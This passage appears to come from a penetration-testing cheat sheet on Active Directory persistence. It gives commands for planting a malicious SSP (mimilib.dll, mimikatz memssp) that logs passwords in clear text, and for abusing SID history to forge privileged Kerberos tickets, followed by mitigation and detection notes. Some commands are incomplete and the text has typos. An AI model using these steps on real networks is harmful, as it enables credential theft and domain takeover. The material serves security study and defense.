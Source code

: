 


[](assets/images/pen-ta0007-discov-t1046-scan-net-svc.png)

## <a name='activedirectory'></a>activedirectory

### <a name='custom-ssp'></a>custom-ssp

- drop the dhe malicious SSP 'mimilib.dll' in C:\Windows\System32\ to log passwords in clear-textll 
- after a reboot all credentials can be found in clear text in C:\Windows\System32\kiwissp.log

▶️ PLAY :
```powershell
# get a list existing LSA Security Packages
reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

# add mimilib.dll to the Security Support Provider list (Security Packages)
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages"

# can also inject the malicious SSP in memory / won't survive reboots
privilege::debug
misc::memssp
```

**mitigation**

- Event ID 4657 - Audit creation/change of HKLM:\System\CurrentControlSet\Control\Lsa\SecurityPackages

### <a name='sid-history'></a>sid-history

[T1134.005](https://attack.mitre.org/techniques/T1134/005/)

- ensure continued access to resources from the 'former domain' (target) to the 'ObjectSid' attribute on account objects
- generate a golden or diamond ticket adding a 'privileged group' of the 'former domain' in the '/sids' arg of any 'krb8 tickets forger tool' (rubeus, mimikatz, pypykatz, bettersafetykatz, ...)
- 'privileged group' RID: 512 (Domain Admins), 519 (Enterprise Admins)

▶️ PLAY :
```powershell
# find the SID of the former domain
Get-DomainGroup -Identity "Domain Admins" -Domain dollarcorp.local -Properties ObjectSid

# generate a golden / diamond ticket
```

**detection**

- [](https://adsecurity.org/?p=1772)

```powershell
# enumerate all users with data in the SID History attribute and flag the ones with the 'Same Domain SID History'
Import-Module ActiveDirectory
[string]$DomainSID = ( (Get-ADDomain).DomainSID.Value )
Get-ADUser -Filter “SIDHistory -Like ‘*'” -Properties SIDHistory | Where { $_.SIDHistory -Like “$DomainSID-*” }

# detection via Domain Controller Events
# requires the configuration of the sub-category auditing under Account Management,  “Audit User Account Management” (success) on DCs for :
#   4765: SID History was added to an account.
#   4766: An attempt to add SID History to an account failed.
```
